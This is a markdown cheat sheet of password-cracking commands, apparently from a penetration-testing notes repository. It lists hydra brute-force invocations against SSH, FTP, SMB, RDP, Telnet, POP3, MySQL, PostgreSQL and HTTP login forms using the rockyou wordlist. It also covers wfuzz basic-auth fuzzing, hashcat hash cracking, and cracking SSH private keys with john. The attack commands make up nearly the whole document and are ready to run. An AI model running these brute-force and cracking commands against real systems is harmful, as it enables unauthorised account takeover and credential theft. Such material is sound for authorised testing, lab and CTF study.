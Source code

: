 # Cracking Techniques

Usually the tools that I always use are hashcat, wfuzz, hydra and metasploit. 

- [SSH](#ssh)
- [FTP](#ftp)
- [SMB](#smb)
- [RDP](#rdp)
- [Telnet](#rdp)
- [Pop3](#pop3)
- [Mysql](#mysql)
- [Postgresql](#postgresql)
- [HTTP](#http)
- [Hashcat](#hashcat)
- [John](#john)
- [References](#references)

### SSH

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 ssh 

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 ssh 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 ssh

# Different Port 
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 ssh -s 9999
```

### FTP

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 ftp

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 ftp 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 ftp

# Different Port 
hydra  -l user -P /opt/rockyou.txt -f 10.10.8.83 ftp -s 9999
```

### SMB

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 smb

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 smb 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 smb

# With Domain
hydra -l user -P /opt/rockyou.txt -f -m Domain 10.10.8.83 smb 

```

### RDP

```
# Unknown User
hydra -L user.txt -p "Password" -f rdp://10.10.8.83

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f rdp://10.10.8.83

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f rdp://10.10.8.83
```

### Telnet

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 telnet

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 telnet

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 telnet

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 telnet -s 9999
```

### Pop3

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 pop3

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 pop3

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 pop3

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 pop3 -s 9999
```

### Mysql

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 mysql

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 mysql

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 mysql

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 mysql -s 9999
```

### Postgresql

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 postgres 

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 postgres 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 postgres 

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 postgres -s 9999
```

### HTTP

```
=> Hydra

# Unknown User
hydra -f -L user.txt -P /opt/rockyou.txt 10.10.8.83 http-post-form "/api/login:username=^USER^&password=^PASS^&Login=Login:Incorrect Credentials" -t 50

# Unknown Password
hydra -f -l user -P /opt/rockyou.txt 10.10.8.83 http-post-form "/api/login:username=^USER^&password=^PASS^&Login=Login:Incorrect Credentials" -t 50

# Unknown User and Password
hydra -f -L user.txt -P /opt/rockyou.txt 10.10.8.83 http-post-form "/api/login:username=^USER^&password=^PASS^&Login=Login:Incorrect Credentials" -t 50

=> Wfuzz

# Basic Authentication
wfuzz -u http://10.10.8.83 -H "Authorization : Basic FUZZ" -w userpass.txt --h459

wfuzz -w user.txt -w pass.txt --basic FUZZ:FUZ2Z http://10.10.8.83
```


### Hashcat

Please check the mode in the link below:

https://hashcat.net/wiki/doku.php?id=example_hashes

```
hashcat -m 160 crack.txt /opt/rockyou.txt

hashcat -m 160 crack.txt /opt/rockyou.txt --force
```

### John

Usually the john is already inside Kali VM. You can locate it in /usr/share/john/.

```
# Find List of John 
locate john | grep /usr/share/john/ | grep 2 | grep -v "ztex" | grep -v "rules"

# Convert to John (Example)
python /usr/share/john/ssh2john.py id_rsa > hash.txt

# To crack
john --wordlist=/opt/rockyou.txt hash.txt
```

# References

[1] https://linuxconfig.org/ssh-password-testing-with-hydra-on-kali-linux

[2] https://redteamtutorials.com/2018/10/25/hydra-brute-force-techniques/

[3] https://medium.com/better-programming/can-we-automate-earning-bug-bounties-with-wfuzz-c4e7a96810a5

[4] https://hashcat.net

[5] http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats